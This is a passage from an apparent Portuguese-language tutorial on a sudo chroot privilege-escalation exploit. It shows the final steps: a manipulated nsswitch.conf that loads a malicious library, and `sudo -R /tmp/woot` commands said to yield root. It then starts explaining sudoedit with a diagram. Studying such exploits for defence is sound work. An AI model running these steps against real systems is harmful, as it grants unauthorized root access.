 O que fizemos? Primeiro adicionamos a linha: `hosts: files ...`, que é apenas a funcionalidade mínima/disfarçe para que o nsswitch funcione minimamente.
Então nós adicionamos `passwd files /lib/woot` no final do arquivo, essa é a parte crítica, aqui que nós chamamos a lib maliciosa.

### 4. ***Rodar o exploit*:**

Após todos os passos, o setup para que nós rodemos o exploit, está pronto!
Basta testar:

```bash
sudo -R /tmp/woot /usr/bin/id

```

ou

```bash
sudo --chroot /tmp/woot /usr/bin/id

```

E pronto, temos acesso root ao sistema alvo!
Quando rodamos o comando, o sudo tenta resolver info do user atual (`passwd`) e lerá o `nsswitch.conf` manipulado, que vai carregar a `/tmp/woot.so`.

## Como funciona??

### Entenda o `sudoedit` e `-R`

Para entender a vulnerabilidade em si, primeiro vamos entender como o `sudo` deveria ser utilizado normalmente, como o escopo vulnerável funciona em casos normais.

***sudoedit*:**

O `sudoedit` é uma ferramenta do `sudo` que serve para modificar arquivos mesmo que não tenhamos permissão para isso, só que de uma forma segura.
O processo é assim:

```mermaid
graph LR
    A[Inicia sudoedit] --> B{Sudoedit invocado}
    B --> C[Cria cópia temp.]
    C --> D[Cópia c/ perm. usuário]
    D --> E["Editor abre cópia"]
    E --> F[Usuário edita e salva]
    F --> G{Saiu do editor?}
    G -- Sim --> H[Verifica modificações]
    H -- Modificado? --> I[Copia temp. p/ original]
    I --> J[Cópia c/ ROOT]
    J --> K[Alterações salvas]
    H -- Não --> L[Sem alterações]
    L --> K

```
